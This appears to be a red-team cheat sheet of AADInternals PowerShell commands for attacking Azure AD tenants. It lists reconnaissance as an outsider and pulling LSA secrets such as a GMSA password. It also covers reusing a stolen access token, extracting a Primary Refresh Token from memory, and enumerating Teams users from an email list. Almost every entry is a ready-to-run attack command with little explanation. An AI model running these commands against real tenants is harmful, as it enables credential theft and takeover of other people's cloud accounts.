 ### Source
https://github.com/Gerenios/AADInternals

### Install and Import
```
Install-Module AADInternals
Import-Module AADInternals.psd1
```

### Gather informations from AzureAD
```
Get-AADIntTenantDomains -Domain <domain>
```

### Gather informations from AzureAD
```
Invoke-AADIntReconAsOutsider -DomainName <tenant>.onmicrosoft.com
```

### Get GMSA password from given user
```
Get-AADIntLSASecrets -AccountName "<domain>\<user>"
```

### Use AAD Graph token
```
Connect-AzureAD -AccountId <user>@<tenant>.onmicrosoft.com -AadAccessToken <token>
```

### Retreive Primary Refresh Token from memory
```
Get-AADIntUserPRTToken
```

### Check MS Teams
```
Get-AADIntAccessTokenForTeams -SaveToCache
Get-Content "mail-addresses.txt" | % { echo $_ ; Get-AADIntTeamsAvailability -UserPrincipalName $_ }
```


